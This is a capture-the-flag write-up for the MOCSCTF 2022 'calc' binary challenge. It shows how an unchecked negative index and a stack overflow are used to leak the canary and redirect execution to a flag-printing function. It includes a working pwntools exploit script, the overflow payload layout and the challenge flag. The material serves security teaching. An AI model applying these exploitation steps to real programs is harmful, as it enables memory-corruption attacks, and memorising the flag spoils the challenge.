








# mocsctf2022.mocsctf.com - calc

Origin challenge link: https://mocsctf2022.mocsctf.com/challenges

You can also download challenge in my repo: [calc.zip](calc.zip)

There is 1 file in zip:

- calc

Download the file and let's start!

# 1. Find bug

First, we use `file` to check for basic information:

```
$ file calc

calc: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ea3703cc9b093c54402a5461acb0d88249d219f0, for GNU/Linux 3.2.0, not stripped
```

Wonderful! This is a 64-bit file without being stripped. This will be helpful when we debug our program. Next, we will use `checksec` to check all the security of file:

```
$ checksec calc
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

When can see that there is canary on stack and no PIE. That's all we can get for checksec. Finally, we will use ghidra to decompile the challenge file to get the flow.

Looking at all the functions, we can see that there is an interesting function named `calc_root`:



It will read and print out the flag for us. Very interesting! And another essential function is main().

The first thing in main() we can see is that with the first option `Set Numbers`, it get the position **without checking if it's a negative number or not** and compare with `local_d8` which containing `20`:


Then it take this pos variable, add `local_c8` and scanf():


In GDB with index 0 and 1, it will be like this:


But we can set number within (-oo ; 20] so that's the first bug.

The next option is `Calculate`, it get our input, then sum all data on stack from index 0 to our input and print out the final value:



So with index 1, it will work like this:



That's the data on stack:


Nothing we can get but just know how to leak stack data. 

And the last option is `Finish`, which is defined with just 24 char space:


But we can input upto 0x100 byte:


So that means **Buffer Overflow** and we have a `ret` right after our input. But there is canary on stack and how can we deal with it? We will try to leak it as the next part describes.

That's all we found. Let's move on next part: Brainstorming!

# 2. Brainstorming

We know that with the first option, we can change all the data, on stack, we want. Luckily, we can see that `local_c8`, which we `input the number` of option 1, is after `local_d8`, which contain 20 (0x14) to check if our index is larger than 20 or not


So we will change `local_d8` from 20 to a larger number so that when we get value on stack, we can get more than 20 index. Hence, we leak the canary value. And with **buffer overflow** in the `Finish` option, we control the rip to make it print out the flag.

- Summary:
  1. Leak stack canary
  2. Get flag

# 3. Exploit

Before we start our exploitation, I write those function to make our exploitation easier

<details>
<summary>Code snippet</summary>
<p>

```
def setnumber(pos, number):
	p.sendlineafter(b'choice:', b'1')
	p.sendlineafter(b'Please input the pos:', '{}'.format(pos).encode())
	p.sendlineafter(b'Please input the number:', '{}'.format(number).encode())

def calculate(many):
	p.sendlineafter(b'choice:', b'2')
	p.sendlineafter(b'How many?\n', '{}'.format(many).encode())
	# Result receive outside

def finish(data):
	p.sendlineafter(b'choice:', b'3')
	p.sendafter(b'What\'s your name?', data)
```

</p>
</details>

And now, we start!

### Stage 1: Leak stack canary

First, we will change the maximum of index from 20 to 0x100 with the `Set Number` option. Having a look in GDB, we know that the index which point to max index variable is `-2`:


So we change that with the following code:

```
setnumber(-2, 0x100)
```

Now the maximum index is 0x100, that's enough for us to exploit. Then, leaking canary will be the easy part, not easiest, because we know that `Calculate` will sum all the data on stack from index 0 to index of our input. For an easier leak, I will set all the data previous canary to 0x0 so when it `Calculate`, it just print our the stack canary.

So first, we set all the data before canary to 0x0 with the following code:

```
for i in range(23):
	setnumber(i, 0)
```

And now, we just leak the canary:

```
calculate(24)
data = int(p.recvline()[:-1].split(b':')[1])
print(data)
```

Running all of them should get us the canary:



Run several time and we get the negative canary value. Why is it negative? I thought the stack just like `0xffffffff`, there is no way it can be negative. The answer is it can be negative because:


The output format is `%lld`, which from `0` to `0x7fffffffffffffff` will be positive number, but from `0x8000000000000000` to `0xffffffffffffffff` will be negative number. So to deal with that leak, we will use [struct](https://docs.python.org/3/library/struct.html) (a module in python) to convert from that long int into hex:

```
canary = u64(struct.pack('<q', data))

# Just for printing the leak canary
log.success('Leak canary: ' + hex(canary))
```

Running the script several time and we get the negative leaked canary in hex:



Compared with canary in GDB:



And that's correct! We got the stack canary leaked! Let's move on final stage: Get flag!

### Stage 2: Get flag

With canary and **Buffer Overflow**, we now have the control of rip. Let's check where is our input placed in the last option with payload like this:

```
finish(b'A'*8)
```



Our new stack canary is `0xa2c6a51796813300` (Cause I re-run it :D). We can see that our input is just near the canary. Remember this order: `canary -> rbp -> rip` so that our final payload will be like this:

```
payload = b''
payload += b'A'*0x18                      # Pad to canary
payload += p64(canary)                    # Canary
payload += b'B'*0x8                       # Fake rbp
payload += p64(exe.sym['calc_root'])      # rip
finish(payload)
```

Running that script and we get the flag. 

Full code: [solve.py](solve.py)

# 4. Get flag



Flag is `MOCSCTF{3bbbbe8e-18c6-4da3-8bf9-fe38f154426c}`